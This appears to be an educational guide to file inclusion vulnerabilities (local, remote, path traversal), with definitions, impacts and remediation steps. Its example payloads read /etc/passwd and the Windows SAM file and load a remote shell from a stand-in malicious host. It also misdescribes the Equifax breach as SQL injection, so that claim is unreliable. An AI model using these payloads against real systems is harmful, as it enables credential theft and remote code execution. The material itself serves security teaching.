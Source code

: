 # File Inclusion

## File Inclusion Overview

### High-Level Summary

_**File Inclusion Vulnerabilities**_ occur when applications improperly handle user input to include files dynamically. This can lead to severe consequences like **information disclosure**, **remote code execution**, or **privilege escalation**. File inclusion vulnerabilities arise due to poor input validation, lack of access controls, and improper path handling. These vulnerabilities are categorized into:

* _**Local File Inclusion (LFI)**_: Including files already present on the server.
* _**Remote File Inclusion (RFI)**_: Including files from external sources via URLs.
* _**Path Traversal**_: Accessing files outside the intended directory by manipulating paths.

***

### Definition Bank

| **Term**                        | **Definition**                                                                                                | **Example**                                                                        |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------- |
| **File Inclusion**              | A mechanism for including files into a main script, often using directives like `include` or `require`.       | Including configuration files or templates dynamically in PHP or Python.           |
| **Local File Inclusion (LFI)**  | Exploiting a file inclusion vulnerability to include files already on the server.                             | Reading `/etc/passwd` via path manipulation in Unix-based systems.                 |
| **Remote File Inclusion (RFI)** | Exploiting a file inclusion vulnerability to include files from external sources via URLs.                    | Including a malicious script hosted on an attacker-controlled server.              |
| **Path Traversal**              | A vulnerability where attackers manipulate paths to access unauthorized files outside the intended directory. | Using `../../../../etc/passwd` to traverse directories and access sensitive files. |
| **Absolute Path**               | A full path to a file or directory from the root of the filesystem.                                           | `/var/www/html/config.php`.                                                        |
| **Relative Path**               | A path relative to the current working directory.                                                             | `../config.php` or `../../etc/passwd`.                                             |

***

### Understanding Key Concepts

#### File Inclusion in Modular Design

Modern applications are often modular to improve maintainability and scalability. This means:

* Applications are broken into components based on functionality (e.g., configurations, templates).
* Files are dynamically included using mechanisms like `include` (PHP), `import` (Python), or `require` (Node.js).

***

### How File Inclusion Vulnerabilities Occur

1. **Improper Input Validation**:
   * **Problem**: When file paths are constructed using unsanitized user input.
   * **Effect**: Allows attackers to manipulate the input to include unintended files.
2. **Lack of Access Controls**:
   * **Problem**: Absence of proper restrictions on directories or file access.
   * **Effect**: Attackers can access sensitive files like configurations or logs.

***

### Categories of File Inclusion Vulnerabilities

#### Local File Inclusion (LFI)

* **What it is**: Exploiting the inclusion mechanism to load files already on the server.
* **Impact**:
  * **Information Disclosure**: Reading sensitive files like `/etc/passwd`.
  * **Server-Side Code Execution**: Including log files containing malicious payloads.
  * **Privilege Escalation**: Accessing configuration files with admin credentials.

**Example Payload**:

```php
http://example.com/index.php?file=../../../../etc/passwd
```

***

#### Remote File Inclusion (RFI)

* **What it is**: Exploiting the inclusion mechanism to load files from external URLs.
* **Impact**:
  * **Remote Code Execution**: Running attacker-hosted malicious scripts.
  * **Data Theft**: Exposing sensitive application data to attackers.

**Example Payload**:

```php
http://example.com/index.php?file=http://malicious.com/shell.php
```

***

#### Path Traversal

* **What it is**: Manipulating file paths to access files outside the intended directory.
* **Impact**:
  * **Information Disclosure**: Reading files like `config.php` or `/etc/passwd`.
  * **Access Control Bypass**: Navigating outside restricted directories.

**Example Payloads**:

```plaintext
../../../../etc/passwd
..\\..\\..\\..\\windows\\system32\\config\\SAM
```

***

### Real-World Impact

* **Equifax Data Breach (2017):** While primarily an SQL injection vulnerability, the attack demonstrated how improper input validation and poor access controls could lead to massive data exposure. Similar issues exist in file inclusion vulnerabilities.
* **CVE-2019-18952 (Webmin):** A remote file inclusion vulnerability in Webmin allowed attackers to execute arbitrary commands by injecting malicious URLs.
* **Multiple WordPress Plugins (Ongoing):** Poorly implemented file inclusion mechanisms in WordPress plugins frequently result in LFI and RFI vulnerabilities, enabling attackers to gain unauthorized access or execute arbitrary scripts.

***

### Attack Scenarios

#### Local File Inclusion (LFI) Example

```php
http://example.com/index.php?page=../../../../etc/passwd
```

* The application does not properly validate user input, allowing traversal outside the intended directory.
* If successful, the attacker retrieves system files, potentially exposing credentials and configuration details.

#### Remote File Inclusion (RFI) Example

```php
http://example.com/index.php?page=http://malicious.com/shell.txt
```

* The attacker provides a URL pointing to a malicious script, which the application executes, leading to remote code execution.

***

### Remediation Strategies

1. **Input Validation & Sanitization**
   * Restrict input to expected file names and extensions.
   * Use allowlists rather than blocklists to enforce safe inputs.
2. **Enforce Secure File Handling**
   * Use absolute paths instead of relying on user input.
   * Restrict file inclusion to specific directories using settings like `open_basedir` (PHP) or sandboxed file access controls.
3. **Disable Remote File Inclusion**
   * If RFI is not required, disable functions that allow URL-based inclusion (e.g., `allow_url_include=Off` in PHP).
4. **Monitor and Log Access Attempts**
   * Implement logging and alerting mechanisms to detect unusual file access patterns.
   * Regularly audit logs for suspicious inclusion attempts.
5. **Apply Principle of Least Privilege**
   * Limit file permissions to prevent unauthorized read or execution access.
   * Ensure web application users have minimal access rights.

***

#### Conclusion

File inclusion vulnerabilities pose a significant threat to web applications, often leading to sensitive data disclosure or full system compromise. Secure coding practices, strict input validation, and proper access controls are essential in mitigating these risks. Regular security assessments, including vulnerability scanning and penetration testing, help identify and remediate these vulnerabilities before exploitation occurs.
